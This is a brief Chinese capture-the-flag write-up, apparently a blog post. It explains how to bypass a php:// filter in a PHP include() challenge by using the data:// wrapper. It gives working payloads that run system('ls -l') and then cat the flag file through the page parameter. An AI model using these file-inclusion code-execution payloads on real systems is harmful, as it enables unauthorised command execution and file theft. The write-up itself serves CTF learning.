



分析源码

题目源码中试图过滤 php:// 伪协议以及调用 +文件包含。 可以绕过 include($page) 

这实际上是在提示：利用PHP伪协议 除php:// 伪协议过滤以外的还有data://伪协议

 

构造payload：

/?page=data://text/plain,<?system('ls -l');?>

 

得到目录信息

访问

fl4gisisish3r3.php 

 

/?page=data://text/plain,<?system('cat 

fl4gisisish3r3.php ');?>

 

查看源码，得到flag

 

 

 